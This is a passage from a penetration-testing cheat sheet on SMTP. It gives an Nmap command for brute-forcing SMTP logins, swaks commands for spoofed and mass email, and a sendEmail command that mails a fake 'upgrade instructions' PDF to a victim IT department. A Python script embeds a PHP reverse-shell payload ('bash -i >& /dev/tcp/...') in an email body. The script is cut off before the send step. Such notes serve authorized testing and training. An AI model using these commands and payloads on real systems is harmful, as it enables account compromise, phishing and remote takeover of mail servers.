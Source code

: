 {% tab title="Nmap" %}
We may use the [smtp-brute.nse](https://nmap.org/nsedoc/scripts/smtp-brute.html) nmap's script

```bash
nmap --script smtp-brute -p 25,465,587 <target-ip>
```
{% endtab %}
{% endtabs %}

### Send E-mail

{% tabs %}
{% tab title="Swaks" %}
[**swaks**](https://github.com/jetmore/swaks) is a swiss army knife for SMTP and can be used to send  emails from external domain

```bash
# Basic usage
swaks --to remote-user@example.com --from local-user@<local-ip> --server mail.example.com --header "Subject: test" --body "hello"

# Mass email
swaks --to $(cat emails | tr '\n' ',' | less) --from local-user@<local-ip> --server mail.example.com --header "Subject: test" --body "hello"
```
{% endtab %}

{% tab title="sendEmail" %}
[sendEmail](https://github.com/mogaal/sendemail) is a lightweight, completely command line based, SMTP email agent.

```bash
# Send with email attahement
sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s <SMTP_SRV_IP> -u "Important Upgrade Instructions" -a /tmp/BestComputers-UpgradeInstructions.pdf
```
{% endtab %}

{% tab title="Python" %}
We may use following python script to send emails

```python
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

lhost = "127.0.0.1"
lport = 443
rhost = "192.168.1.1"
rport = 25 # 489,587

# create message object instance
msg = MIMEMultipart()

# setup the parameters of the message
password = "" 
msg['From'] = "attacker@local"
msg['To'] = "victim@local"
msg['Subject'] = "This is not a drill!"

# payload 
message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))

print("[*] Payload is generated : %s" % message)

msg.attach(MIMEText(message, 'plain'))
server = smtplib.SMTP(host=rhost,port=rport)
```